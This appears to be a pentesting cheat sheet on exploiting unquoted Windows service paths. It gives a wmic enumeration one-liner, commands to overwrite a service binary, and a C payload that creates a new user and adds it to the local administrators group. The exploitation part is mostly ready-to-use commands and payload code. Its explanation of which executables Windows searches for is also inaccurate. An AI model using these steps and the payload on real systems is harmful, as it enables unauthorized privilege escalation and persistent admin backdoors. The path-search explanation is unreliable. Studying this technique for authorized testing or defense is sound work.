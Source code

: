 # Unquoted paths

## Enumeration

### wmic

```
wmic service get name,displayname,pathname,startmode |findstr /i "Auto" |findstr /i /v "C:\Windows\\" |findstr /i /v """
```

## Exploitation

### Path hijack

Given the following path:  `C:\Program Files\a folder\app.exe` Windows will search for the following executables: `Program.exe Files.exe a.exe folder.exe app.exe` By creating an executable and inserting it in the right place it will be run with Admin or Sys privileges.

### Executable replacement

If the executable file's privileges allow overwriting it is possible to replace it with a malicious file.

```
icacls "<path to program's folder>"
cd <folder>
del /f <filename>.exe
move <path to malicious file>.exe ./<filename>.exe
```

### Boilerplate C file

```
#include <stdlib.h>
int main ()
{
    int i;
    i = system("net user <user> <pass> /add");
    i = system("net localgroup administrators <user> /add");
    return 0;
}
```
